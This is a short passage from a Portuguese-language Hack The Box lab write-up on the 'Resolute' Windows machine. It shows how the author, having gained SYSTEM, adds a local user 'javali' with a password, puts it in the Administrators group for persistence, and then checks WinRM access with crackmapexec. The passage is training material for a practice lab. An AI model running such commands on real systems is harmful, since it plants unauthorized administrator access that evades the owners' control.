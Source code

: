 ![Authority system](Assets/HTB-Windows-Medium-Resolute/Authority-system.png)

# We are authority\system

A partir daí, podemos recuperar as flags... Mas antes, apenas para o fun, vamos criar uma certa persistência. Podemos criar um usuário, e adicioná-lo ao grupo de Administradores para poder entrar sempre que quisermos via WinRM.

```powershell
net user javali J4v4li123! /add
net localgroup Administrators javali /add
```

Vamos validar com crackmapexec, e tentar entrar via WinRM

![Authority javali](Assets/HTB-Windows-Medium-Resolute/Authority_javali.png)
